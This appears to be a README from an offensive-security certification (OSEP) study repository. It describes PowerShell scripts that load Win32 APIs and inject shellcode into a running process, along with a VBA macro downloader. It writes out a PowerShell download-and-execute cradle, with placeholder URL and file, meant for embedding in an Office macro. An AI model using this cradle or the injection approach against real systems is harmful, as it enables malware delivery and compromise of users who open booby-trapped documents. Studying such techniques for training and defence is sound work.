 ### PowerShell

In this repository we have some scripts that describes the process to execute a shellcode using PowerShell resources.

- In [InvokeWin32APIs.ps1](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/PowerShell/InvokeWin32APIs.ps1), we learn how to import some Win32 APIs over C# code. 
- In [ShellCodeLauncher.ps1](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/PowerShell/ShellCodeLauncher.ps1), we implement that Win32 APIs over our current powershell session and use it to copy our shellcode in memory and inyect it over the execution flow of the current process.
- In [VBAenvlauncher.ps1](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/PowerShell/VBAenvlauncher.ps1) we modify some parts of the script before to be succesfully launched in a VBA macro.

The method to use correctly this script is to use it with [PSHTTPDownloader.vba](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/VBA/PSHTTPDownloader.vba), the *str* var must contian the follwoing line:

```powershell
powershell (New-Object System.Net.WebClient).DownloadFile('<URL>', '<OUTFILE>') | IEX
```
